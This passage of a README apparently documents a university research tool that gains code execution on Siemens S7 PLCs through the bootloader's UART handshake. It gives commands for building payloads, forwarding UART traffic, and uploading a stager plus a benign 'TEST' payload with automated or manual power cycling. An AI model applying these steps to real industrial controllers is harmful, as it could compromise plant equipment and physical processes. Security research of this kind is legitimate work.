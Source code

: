
To actually compile the payload go to `uart_rce/payloads` folder. There are various payloads available. Each payload have a [build.sh](https://github.com/RUB-SysSec/SiemensS7-Bootloader/blob/master/payloads/hello_world/build.sh) file. To compile them you can go inside the folder and run the build bash file. For example, here we compile the hello_world payload which is used for our test mode :


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/hello_world/$ sh build.sh
```

Once we are done compiling the payloads for Cortex-R4 CPU, we can open the channel for forwarding our UART serial data to a TCP port which will be used by our client utility. This console window should show you raw UART traffic between PLC and client utility:

```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh start.sh
```

### Using the `--no-power-supply` Option

For scenarios where an external power switching device (like the ALLNET ALL3075V3) is unavailable or undesired, the `--no-power-supply` flag provides an alternative. When this flag is used:

*   The client script bypasses all power-switching logic.
*   It will attempt to establish a connection with the PLC by repeatedly sending the magic handshake (`MFGT1`) for up to 60 seconds.
*   **You must manually power cycle the PLC** (i.e., turn it off and then on again) shortly before or during this 60-second window to allow the bootloader to receive the handshake.
*   This option should be used *instead of* `--switch-power` and any related `--powersupply-*` arguments. If `--switch-power` is also present, the power cycling logic will still be skipped if `--no-power-supply` is specified.

This method is useful if you can manually control the PLC's power state and want to use the tool without the automated power-cycling hardware.

### DEMO 1: Upload and executing stager and test payloads 

Now, we can use our client utility. Open a new console window (without closing the console which runs `start.sh`), and type the following command for uploading the stager and test payload to the UART: 

**With automated power switching:**
```console
# Ensure client.sh is configured with your power supply details
sh client.sh --switch-power --powersupply-fx3u-ip 192.168.1.18 --powersupply-fx3u-port 502 --powersupply-fx3u-output Y0 --powersupply-delay=1 test
```

**With manual power cycle using `--no-power-supply`:**
```console
# Replace <PORT> with the TCP port socat is listening on (e.g., 20000 if using default start.sh)
# You will need to manually power cycle the PLC for the handshake to succeed within 60 seconds.
python3 client.py --port <PORT> --no-power-supply test --payload payloads/hello_world/build/hello_world.bin
```

The `--powersupply-delay` (in the automated example) is provided for Cold-boot style firmware dumping. The argument `test` uses the payload in `payloads/hello_world/build/hello_world.bin` file. This payload literally just runs inside the PLC and sends string `TEST` back to the client, thus client knows the code successfully executed inside the PLC.
